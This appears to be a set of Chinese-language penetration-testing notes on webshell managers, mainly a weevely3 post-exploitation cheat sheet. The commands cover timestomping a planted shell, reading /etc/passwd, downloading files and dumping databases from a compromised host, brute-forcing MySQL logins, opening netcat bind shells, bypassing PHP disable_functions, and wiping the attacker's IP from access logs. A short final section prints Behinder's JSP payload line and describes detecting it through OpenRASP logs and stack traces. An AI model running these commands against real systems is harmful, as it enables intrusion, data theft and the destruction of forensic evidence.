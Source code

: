 ### Webshell管理工具

主控端proxy可"隐藏"主控端IP 亲测可用

|webshell名称|主控端|目标环境|主控端proxy|描述|
|:-------------:|--|--|-----|----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python2| php | [shell proxy](sec_proxy.md#shell-proxy)|更适合linux环境下的后渗透 |
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/jsp/.asp（.NET)|自带 http(s) proxy|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|/|TCP tunneling over HTTP/HTTPS for web application servers. [Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |

#### jsp环境

```
# 设置webshell.jsp的"修改时间" 设置成1.jsp的"修改时间"
touch -r 1.jsp webshell.jsp
```

#### php环境 weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意压缩过程可能被中断(判断方法是临时压缩文件大小不变) 建议重新执行压缩文件命令(实测某次压缩过程被中断6次才压缩成功 最终压缩包大小为2G)
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描 - 使用PHP函数[fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
    * 工具命令`:net_scan 127.0.0.1 21,22,80,443,1433,3306,3389,7001`
  * proxy
    * 工具命令`:net_proxy` 使用目标主机发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互
    * 工具命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句
      * 对MySQL进行信息搜集 `SELECT version();` `show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库到本地（前提是MySQL需要权限 可导出文件到某目录）
    * 常见问题:无权限导出文件
      * 查看MySQL权限 `show global variables like '%secure_file_priv%';` 如果查询结果为NULL 则没有权限直接使用SQL语句导入导出文件. 有变通方法
      * 保存sql查询的结果即可 ```SELECT * FROM `table1`;```
        * 常见问题:如果sql查询的结果数据过多 导致sql查询超时? 也有变通方法
        * 先确定数据条数 ```SELECT COUNT(*) FROM `table1`;``` 
        * 再分多次查询 ```SELECT * FROM `table1` ORDER BY `id` ASC LIMIT 0,20;``` 从第1条数据开始(起点) 查询得到20条数据(数据量) 下次`LIMIT 20,20`再得到20条数据 ... 以此类推 最后拼接查询结果 得到整个表的数据
    * 实现dump方式1 使用php实现(默认) 支持mysql,pgsql,sqlite,dblib  php代码见[weevely3/mysqldump.tpl](https://github.com/epinna/weevely3/blob/master/modules/sql/_dump/mysqldump.tpl) 原项目为[mysqldump-php](https://github.com/ifsnop/mysqldump-php)
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306` 把数据库dump 下载保存到本地目录`/var`下. 可指定保存为本地文件`-lpath /Users/xxx/Downloads/db1.sqldump`
    * 实现dump方式2 执行系统命令(只支持MySQL) 使用weevely中定义的php类`ShellCmd`执行系统命令启动`mysqldump`程序实现
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -vector mysqldump_sh`
  * 数据复原:将得到的数据库文件`xx.sqldump`(内容为sql语句) 导入到MySQL数据库
    * 自搭mysqld服务 并登录`mysql -u root -p`
    * 使用MySQL命令 创建 新数据库`CREATE DATABASE new_database;`
    * 在shell下导入数据库文件`data.sqldump`到新数据库`new_database` 命令`mysql -u username -p new_database < xx.sqldump`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:

该检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)

部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```
